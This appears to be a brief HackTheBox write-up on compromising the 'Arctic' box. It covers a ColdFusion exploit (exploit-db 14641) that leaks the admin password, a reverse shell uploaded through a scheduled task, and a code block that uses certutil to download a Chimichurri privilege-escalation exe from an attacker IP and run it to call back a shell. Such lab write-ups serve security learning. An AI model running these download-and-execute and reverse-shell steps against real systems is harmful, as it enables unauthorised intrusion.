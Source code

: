 ```yaml
---
layout: post
title:  "HackTheBox - Arctic"
categories: htb
---
```


Arctic was an easy one that i wont forget due to how certain exploits are used.

# Recon
Port scanning shows port 5800 is open serving coldfusion
Some directory bruteforcing returns CFIDE which will be our admin endpoint.

# Pwning the webapp

Searching exploit-db, we find a suitable exploit that may assist in getting into the coldfusion admin panel. Exploit 14641 does some amazing things, it will retrieve the password hash of the admin/user of the panel and inject it into the html of the login form!
From this we get the password of 'happyday'. From there, gaining a reverse shell through coldfusion is fairly stock standard. Setup a scheduled task with an upload and output file with a web directory then upload a shell. Run the task and navigate to the saved directory with a listener to gain a shell as arctic\tolis

# Gaining root

Running 'systeminfo' on the box shows us theres no hotfixes installed and its not a brand new os. This particular box shows signs of being vulnerable to <???>. Download the Chimchurri exploit from github. Use a method of file transfer on windows like the following to recieve the file.
```
<run webserver to host file>
certutil -urlcache -split -f http://10.10.14.4/chimchurri.exe churr.exe
<execute exploit when new listener is running>
churr.exe 10.10.14.4 443
```
Thats it ! quick and easy root for arctic. 14641 is still one of the simplest and most effective exploits ive seen.

